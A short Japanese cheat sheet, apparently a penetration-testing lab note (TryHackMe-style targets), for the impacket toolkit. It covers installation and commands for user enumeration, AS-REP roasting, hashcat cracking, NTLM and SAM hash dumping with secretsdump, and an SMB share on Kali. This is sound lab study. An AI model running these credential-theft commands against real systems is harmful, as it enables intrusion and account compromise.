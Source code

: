 # impacket

全然まとまっていないので、今後整理する

0.9.20 以降不安定なため、0.9.19 推奨。

https://github.com/fortra/impacket/releases/tag/impacket_0_9_19

```
cd /opt

https://github.com/SecureAuthCorp/impacket/releases/tag/impacket_0_9_19
からコンパイル済みパッケージをダウンロード

cd Impacket-0.9.19 /opt/impacket

pip install .
これにより必要な依存関係がすべてインストール
```

ユーザー名列挙

```sh
python3 /usr/share/doc/python3-impacket/examples/lookupsid.py anonymous@$TARGET
```

```sh
# ASREPRoasting攻撃 によるチケット取得。その後ハッシュをクラック。
# hashcat -m 18200 ./hash.txt ./passwords.txt
python3 /home/kali/tools/impacket/examples/GetNPUsers.py 'THM-AD/' -usersfile names.txt -no-pass -dc-ip 10.10.249.47
```

```sh
# NTLM ハッシュ抽出
python3 /home/kali/tools/impacket/examples/secretsdump.py -just-dc-ntlm THM-AD/backup@10.10.249.47
```

ファイル共有設定（kali）

```shell
$ mkdir share
$ python /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support public share
```

パスワードハッシュ抽出

```sh
python /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
```

## AS-REP Roasting

```sh
python3 /home/kali/tools/impacket/examples/GetNPUsers.py -dc-ip 10.10.194.124 controller.local/ -usersfile users.txt
```
